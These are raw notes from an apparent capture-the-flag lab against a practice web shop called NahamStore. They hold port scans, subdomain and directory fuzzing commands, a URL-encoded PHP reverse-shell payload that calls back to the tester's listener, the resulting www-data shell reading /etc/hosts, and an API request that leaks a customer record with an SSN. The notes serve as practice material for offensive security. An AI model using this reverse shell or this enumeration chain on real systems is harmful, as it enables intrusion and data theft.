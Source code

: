 ──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ sudo nmap -sS --min-rate 5000 -p- --open -n -Pn 10.201.98.118 -oN scan.txt
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-01 09:51 EDT
Nmap scan report for 10.201.98.118
Host is up (0.27s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ grep '^[0-9]' scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
22,80,8000
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ nmap -22,80,8000 -sV -sC -Pn -vvv -n 10.201.98.118 -oN fullScan.txt 
nmap: unrecognized option '-22,80,8000'
See the output of nmap -h for a summary of options.
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ nmap -p22,80,8000 -sV -sC -Pn -vvv -n 10.201.98.118 -oN fullScan.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-01 09:52 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
Initiating Connect Scan at 09:52
Scanning 10.201.98.118 [3 ports]
Discovered open port 22/tcp on 10.201.98.118
Discovered open port 80/tcp on 10.201.98.118
Discovered open port 8000/tcp on 10.201.98.118
Completed Connect Scan at 09:52, 0.26s elapsed (3 total ports)
Initiating Service scan at 09:52
Scanning 3 services on 10.201.98.118
Completed Service scan at 09:52, 11.99s elapsed (3 services on 1 host)
NSE: Script scanning 10.201.98.118.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 7.58s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 1.05s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
Nmap scan report for 10.201.98.118
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-01 09:52:11 EDT for 21s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:6e:52:ca:db:9e:df:0a:ae:b5:70:3d:07:d6:91:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDk0dfNL0GNTinnjUpwRlY3LsS7cLO2jAp3QRvFXOB+s+bPPk+m4duQ95Z6qagERl/ovdPsSJTdiPXy2Qpf+aZI4ba2DvFWfvFzfh9Jrx7rvzrOj0i0kUUwot9WmxhuoDfvTT3S6LmuFw7SAXVTADLnQIJ4k8URm5wQjpj86u7IdCEsIc126krLk2Nb7A3qoWaI+KJw0UHOR6/dhjD72Xl0ttvsEHq8LPfdEhPQQyefozVtOJ50I1Tc3cNVsz/wLnlLTaVui2oOXd/P9/4hIDiIeOI0bSgvrTToyjjTKH8CDet8cmzQDqpII6JCvmYhpqcT5nR+pf0QmytlUJqXaC6T
|   256 1a:1d:db:ca:99:8a:64:b1:8b:10:df:a9:39:d5:5c:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC/YPu9Zsy/Gmgz+aLeoHKA1L5FO8MqiyEaalrkDetgQr/XoRMvsIeNkArvIPMDUL2otZ3F57VBMKfgydtBcOIA=
|   256 f6:36:16:b7:66:8e:7b:35:09:07:cb:90:c9:84:63:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPAicOmkn8r1FCga8kLxn9QC7NdeGg0bttFiaaj11qec
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: NahamStore - Setup Your Hosts File
|_http-favicon: Unknown favicon MD5: 8880CB0A929B848F386E68C5E3FA1676
| http-methods: 
|_  Supported Methods: GET HEAD POST
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ 












# DOMINIOS 

ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "HOST: FUZZ.nahamstore.thm" -mc all -fw 125


shop                    [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 258ms]
marketing               [Status: 200, Size: 2025, Words: 692, Lines: 42, Duration: 272ms]
stock 

shop.nahamstore.thm marketing.nahamstore.thm stock.nahamstore.thm nahamstore-2020.nahamstore.thm nahamstore-2020-dev.nahamstore.thm





 `php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.163.249%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`





 connect to [10.8.163.249] from (UNKNOWN) [10.201.98.118] 38374
ls
css
index.php
js
robots.txt
uploads
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/public
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      2431fe29a4b0
127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm





 dirsearch -u http://nahamstore-2020-dev.nahamstore.thm -r



gobuster dir --url http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt









http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2



{"id":2,"name":"Jimmy Jones","email":"jd.jones1997@yahoo.com","tel":"501-392-5473","ssn":"521-61-6392"}
